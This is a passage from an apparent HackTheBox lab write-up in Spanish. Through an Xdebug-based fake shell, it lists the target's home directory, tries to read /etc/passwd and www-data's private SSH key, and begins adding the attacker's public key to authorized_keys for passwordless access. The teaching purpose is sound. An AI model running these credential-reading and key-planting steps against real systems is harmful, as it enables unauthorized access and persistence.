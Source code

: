 Pues muy bien, ahora solo nos queda buscar alguna manera de obtener una `reverse shell` o algo llamativo por ahí (:

## Encontramos llaves <u>SSH</u> del usuario <u>www-data</u> [📌](#www-web-ssh) {#www-web-ssh}

Algo que nos damos cuenta es que al intentar listar o leer archivos nos devuelve un solo resultado de toooodos los que deberían venir, por ejemplo si queremos ver el contenido del archivo `/etc/passwd`:

<img src="https://raw.githubusercontent.com/lanzt/blog/main/assets/images/HTB/static/355bash_xdebugPY_catEtcPasswd_fail.png" class="img-to-zoom" data-toggle="modal" data-target=".modal-zoomed-img" style="width: 100%;"/>

Claramente, no puede ser de un resultado o podría, pero ese resultado deberíamos ser nosotros, `www-data`, así que intuimos que nos esta cortando la respuesta, esto lo podemos **"solucionar"** (a veces sirve, otras no) diciéndole que al resultado le quite los saltos de línea, no funciono contra ese archivo pero si contra directorios:

```bash
xdeBUG ~> ls -la /home
drwxr-x--- 4 www-data www-data 4096 Sep 29 12:14 www-data
xdeBUG ~> ls -la /home/www-data
-rw-rw-r-- 1 www-data www-data   53 Sep 29 11:31 index.html
xdeBUG ~> ls -la /home/www-data | xargs echo
total 20 drwxr-x--- 4 www-data www-data 4096 Sep 29 16:10 . drwxr-xr-x 3 root root 4096 Jun 14 07:56 .. lrwxrwxrwx 1 root root 9 Jun 14 08:02 .bash_history -> /dev/null drwx------ 2 www-data www-data 4096 Jun 14 08:00 .cache drwx------ 2 www-data www-data 4096 Jun 14 07:54 .ssh -rw-rw-r-- 1 www-data www-data 53 Sep 29 11:31 index.html
```

Entre lo que obtenemos, vemos una carpeta llamativa: `.ssh`, inspeccionémosla...

```bash
xdeBUG ~> ls -la /home/www-data/.ssh | xargs echo
total 20 drwx------ 2 www-data www-data 4096 Jun 14 07:54 . drwxr-x--- 4 www-data www-data 4096 Sep 29 16:10 .. -rw-r--r-- 1 www-data www-data 390 Jun 14 07:54 authorized_keys -rw------- 1 www-data www-data 1675 Jun 14 07:34 id_rsa -rw-r--r-- 1 www-data www-data 390 Jun 14 07:34 id_rsa.pub
```

Bien, tenemos una llave privada, una pública y el archivo donde residen las llaves públicas de otros usuarios que quieren conectarse a la máquina sin proveer contraseña :O Intentemos extraer la llave privada de `www-data` y si no lo logramos, agregamos nuestra llave pública al archivo `authorized_keys` para que el sistema nos deje autenticarnos sin proveer contraseña.

```bash
xdeBUG ~> cat /home/www-data/.ssh/id_rsa
-----END RSA PRIVATE KEY-----
```

Nos devuelve únicamente la última línea del archivo... Intentando otras formas, nanai, así que agreguemos nuestra llave publica a `authorized_keys`:

```bash
❱ ssh-keygen
```

Nos genera el par de llaves (si ya las tienes pues no las creas :P), vamos a la ruta donde se hayan creado y tomamos el objeto `id_rsa.pub`, copiamos su contenido yyyyyyyyy en la **Fake Shell** le decimos que remplace el contenido del archivo con la nueva cadena que le pasaremos, o sea con nuestra llave publica:
